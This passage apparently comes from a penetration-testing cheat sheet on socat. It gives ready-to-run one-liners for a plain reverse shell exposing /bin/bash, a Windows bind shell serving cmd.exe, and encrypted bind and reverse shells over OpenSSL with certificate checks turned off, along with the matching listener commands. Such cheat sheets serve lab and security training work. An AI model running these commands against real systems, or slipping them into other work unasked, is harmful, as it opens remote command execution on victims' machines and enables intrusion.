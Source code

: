 * `EXEC:/bin/bash` - states when the connection is established it will allow access to `/bin/bash`

```plain
socat TCP4:10.0.0.10:443 EXEC:/bin/bash
```

### Bind shell

**Server:**

In this case a Windows machine.

```plain
socat -d -d TCP4-LISTEN:443 EXEC:'cmd.exe',pipes
```

**Client:**

```plain
socat - TCP4:<IP-of-SERVER>:443
```

### Encrypted bind shell

To create a certificate, please check [OpenSSL]({{< ref "openssl" >}}).

**Server:**

```plain
sudo socat OPENSSL-LISTEN:443,cert=yourcert.pem,verify=0,fork EXEC:/bin/bash
```

**Client:**

```plain
socat - OPENSSL:10.11.0.4:443,verify=0
```

### Encrypted reverse shell

**Server:**

Listening for incoming reverse shell serving the certificate created with [OpenSSL]({{< ref "openssl" >}}).

```plain
sudo socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0
```

**Client:**

Windows machine starting the connection to server routing `cmd.exe` in the shell.

```plain
socat -d -d OPENSSL:192.168.189.44:443,verify=0 EXEC:'cmd.exe',pipes
```

## URL List

* [Linux.die.net - socat](https://linux.die.net/man/1/socat)
* [Formulae.brew.sh - socat](https://formulae.brew.sh/formula/socat)
* [Erev0s.com - Encrypted Bind and Reverse Shells with Socat (Linux/Windows)](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

